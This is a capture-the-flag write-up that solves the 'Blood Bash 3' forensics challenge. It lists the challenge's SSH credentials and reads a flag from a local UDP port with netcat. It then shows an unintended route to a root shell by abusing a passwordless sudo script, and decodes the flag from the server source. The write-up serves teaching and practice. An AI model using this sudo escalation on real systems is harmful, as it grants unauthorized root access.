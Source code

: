 # Blood Bash 3
![Category](http://img.shields.io/badge/Category-Forensics-orange?style=for-the-badge) ![Points](http://img.shields.io/badge/Points-100-brightgreen?style=for-the-badge)

## Details

>There's a flag on this system that we're having difficulty with. Unlike the previous flags, we can't seem to find a file with this flag in it. Perhaps the flag isn't stored in a traditional file?
>
> Username: `bl0ody_mary`
> Password: `d34df4c3`
>
> `bloodbash.deadface.io:22`
---

Connect to shell...

Run: `netstat -alnp`

```
bl0ody_mary@16ef1481fce1:~$ netstat -alnp
(No info could be read for "-p": geteuid()=1000 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
udp        0      0 127.0.0.1:43526         0.0.0.0:*                           -                   
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node   PID/Program name     Path

```

here we can see there is an open port listening on local server port `43526`

Also note UDP as the protocol at the begining of the line!

We connect via netcat to that port like so.. `nc -u 127.0.0.1 43526`

Hit `Enter key` and we get;

```
bl0ody_mary@16ef1481fce1:~$ nc -u 127.0.0.1 43526
^[[A^[[B
flag{open_port(al)s}
```

## flag{flag{open_port(al)s}}


Another unintended way to find the flag was as folllows...

Run: `sudo -l"`

```
bl0ody_mary@16ef1481fce1:~$ sudo -l
Matching Defaults entries for bl0ody_mary on 16ef1481fce1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bl0ody_mary may run the following commands on 16ef1481fce1:
    (ALL) NOPASSWD: /opt/start.sh, /usr/sbin/srv
```

If we try to  `cat /usr/sbin/srv`

```
bl0ody_mary@16ef1481fce1:~$ cat /usr/sbin/srv
cat: /usr/sbin/srv: Permission denied

```

Instead if we `cat /opt/start.sh`

```
bl0ody_mary@16ef1481fce1:~$ cat /opt/start.sh
#!/bin/bash

sudo /usr/sbin/srv &
exec /bin/bash

```

Notice at the end of the script it executes `/bin/bash` - as root!

run `sudo /opt/start.sh` gives us a root shell

```
root@16ef1481fce1:/home/bl0ody_mary#
```

Then if we `cat /usr/sbin/srv` we see;

```
#!/usr/bin/env python3

import socket as s
from binascii import hexlify as h, unhexlify as u

host = "127.0.0.1"
port = 43526
buffer = 1024

msg = b"666c61677b6f70656e5f706f727428616c29737d"
bytes_to_send = u(msg)

udp_server_socket = s.socket(s.AF_INET, s.SOCK_DGRAM)
udp_server_socket.bind((host, port))

while True:
        bytes_address_pair = udp_server_socket.recvfrom(buffer)
        #message = bytes_address_pair[0]
        address = bytes_address_pair[1]

        udp_server_socket.sendto(bytes_to_send, address)
```
If we use Python to decode the msg bytes, Again we can see the flag here!;

```
❯ python
Python 3.9.7 (default, Aug 31 2021, 13:28:12) 
[GCC 11.1.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> bytes.fromhex('666c61677b6f70656e5f706f727428616c29737d').decode("ascii")
'flag{open_port(al)s}'
```
